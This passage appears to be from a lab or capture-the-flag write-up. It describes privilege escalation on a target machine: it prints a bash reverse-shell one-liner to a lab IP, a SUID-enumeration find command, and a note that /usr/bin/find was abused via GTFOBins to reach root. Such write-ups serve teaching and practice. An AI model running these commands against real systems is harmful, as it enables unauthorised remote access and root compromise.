


::: page
# Privilege Escalation {#privilege-escalation .title}

\

First we transferred the shell from meterpreter to my kali machine using
: **(listened on port 1234)**

**bash -c \'bash -i \>& /dev/tcp/192.168.56.1/1234 0\>&1\'**

There, we did some **digging** :

Used to command to check for any **suid permissions** :

**find / -perm -u=s -type f 2\>/dev/null**

we got this :

We **checked it for every permission on gtfobins** :

exploited the **/usr/bin/find** :

**We are root!!!**
:::
